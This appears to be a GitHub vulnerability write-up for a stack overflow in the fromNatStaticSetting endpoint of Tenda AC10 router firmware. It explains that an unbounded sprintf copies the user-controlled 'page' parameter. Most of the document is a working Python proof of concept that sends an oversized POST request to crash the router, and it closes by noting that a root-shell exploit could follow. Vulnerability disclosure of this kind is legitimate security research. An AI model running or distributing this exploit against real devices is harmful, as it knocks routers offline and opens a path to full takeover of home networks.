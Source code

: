 # Tenda AC10V15.03.06.23 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2734.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/form_fast_setting_wifi_set/img/1.png)


## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/fromNatStaticSetting/img/2.png)

/goform/fromNatStaticSetting, It can be seen that the page is controlled by the user, and will be spliced into the gotopage with sprintf. It is worth noting that there is no size limit to cause stack overflow.

## Poc

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x300
p2 = b'page=' + p1

p3 = b"POST /goform/fromNatStaticSetting" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell
